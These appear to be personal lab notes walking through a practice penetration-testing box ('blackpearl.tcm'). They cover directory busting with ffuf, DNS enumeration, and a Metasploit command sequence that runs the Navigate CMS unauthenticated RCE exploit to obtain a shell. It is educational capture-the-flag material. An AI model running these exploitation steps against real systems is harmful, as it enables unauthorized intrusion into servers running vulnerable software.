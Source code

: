 80 - 10.0.2.154 - 15/02/2024
Default Nginx page

Directory busting with [[cheet#ffuf]]  + [[cheet#Nikto]] + [[cheet#dirb]]
We found a /secret
/secret contains a file -->  that tells that here we con't find anything

53 - 10.0.2.154:

### Enumerating DNS
We'll use [[cheet#dnsrecon]] to gather some info about the victim host
![[Pasted image 20240216094823.png]]
as you can see -->  we have found a <span style="color:#00b050">DNS POINTER record</span>:
                 record that maps an IP address to the domain name. 
                 It’s often called a "reverse DNS entry"

How can we visit this domain name:
we add inside our /etc/hosts file -->  1 line with the victim ip + the domain
![[Pasted image 20240216095524.png]]

now:
- close your browser
- try to connect http://blackpearl.tcm
- we find a php page
- nothing interesting

but:
we can do directory bursting again on http://blackpearl.tcm

### ffuf
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ_VARIABLE -u http://blackpearl.tcm/FUZZ_VARIABLE`

we found 1 subdirectory -->  navigate
=>
let's connect to http://blackpearl.tcm/navigate
=>
we'll find a NAVIGATE CMS login page
in the bottom-right corner we can see the version -->  navigate cms v2.8
=>
search on google for -->  - navigate cms default credentials 
				     - [navigate cms exploit](https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/)

We have found an exploit for -->   <span style="color:#00b050">Unauthenticated Remote Code Execution</span> 
								 (using metasploit)

## Metasploit
`msfconsole`
`use exploit/multi/http/navigate_cms_rce`
`options`
`set RHOSTS 10.0.2.15 `        attacker ip
`set VHOST blackpearl.tcm`
`run`

=>
<span style="color:#00b050">we have a shell</span><span style="color:#00b050">!</span> 
type `shell`
> [!WARNING] 
> We don't have a normal shell:
> - it is anyway a shell that works  (try to write command whoami for example)
> - but it's difficult to read
> =>
> we need to spawn a tty shell

## Spawn a tty shell
Search on google for -->  [spawning a tty shell](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)
